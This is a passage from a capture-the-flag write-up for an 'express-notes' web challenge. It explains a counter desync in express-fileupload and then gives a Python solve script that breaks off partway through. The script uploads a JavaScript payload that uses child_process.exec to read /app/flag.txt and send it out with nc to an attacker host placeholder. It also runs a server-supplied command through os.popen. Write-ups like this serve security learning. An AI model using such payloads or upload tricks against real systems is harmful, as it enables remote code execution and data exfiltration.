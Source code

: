 This didn't work, of course, because there are many players on the same server uploading multiple files many times, which desyncs `FILE_ID` on the server (which only increments once per route traversal) with `tempCounter` in the `express-fileupload` library (which increments once per file upload, and file uploads to route traversals are not one-to-one). Thus, we'd also have to brute force the `tempCounter` as well, which increased the time complexity from $$O(n)$$ to $$O(n \times m)$$, and I felt that that was too slow to be intended (I was wrong, this was entirely intended and in the author's solve script). So we sat on this challenge at the very last hurdle for a while, and by a stroke of luck the challenge server was reset due to performance issues, resyncing `tempCounter` and `FILE_ID` to yield us the flag!

Solve script:

```py
import requests
from dateutil import parser
import itertools
import time
import os
import string

s = requests.session()

URL = "https://express-notes.ctfz.one"
PAYLOAD = """
require("child_process").exec("cat /app/flag.txt | nc <ME> 2001");
"""

def login():
	s.post(URL + "/login", data = {
		"username": "spare",
		"password": "spare"
	})

def prepare_exploit():
	global timestamp, fileid

	r = s.post(URL + "/notes", data = {
		"title": "alalala",
		"content": "fhui"
	})

	A_ID = r.url.removeprefix(f"{URL}/notes/")
	
	print(f"ID OF A: {A_ID}")


	# upload the exploit
	WORK = r.text.split("by next command: <code>")[1].split("</code>")[0]
	print(WORK)
	hashcash = os.popen(f"{WORK}").read().removeprefix("hashcash stamp: ").strip()
	print(hashcash)
	files = {
		"textFile": ("abc.txt", "doesnt matter", "text/plain"),
		"anything": ("afhuwg", PAYLOAD, "text/plain"),
	}
	r = s.post(f"{URL}/notes/{A_ID}/upload", data = {"hashcash": hashcash}, files = files).text

	timestamp = int(parser.parse(r.split("|Upload date|")[1].split("<br/>")[0].strip()).timestamp() * 1000)
	fileid = int(r.split("|File ID|")[1].split("</div>")[0].strip())

	print(timestamp, fileid)

def exploit():
	global timestamp, fileid
```